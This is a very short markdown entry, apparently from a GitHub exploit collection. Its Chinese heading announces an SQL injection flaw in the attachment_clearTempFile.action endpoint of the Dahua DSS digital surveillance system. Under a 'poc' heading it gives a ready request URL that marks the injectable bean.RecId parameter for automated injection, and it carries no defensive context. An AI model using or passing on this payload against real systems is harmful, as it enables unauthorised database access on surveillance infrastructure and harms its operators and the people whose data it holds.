 ## 大华DSS数字监控系统attachment_clearTempFile.action存在SQL注入漏洞


## poc
```
http://ip/portal/attachment_clearTempFile.action?bean.RecId=1*&bean.TabName=1
```
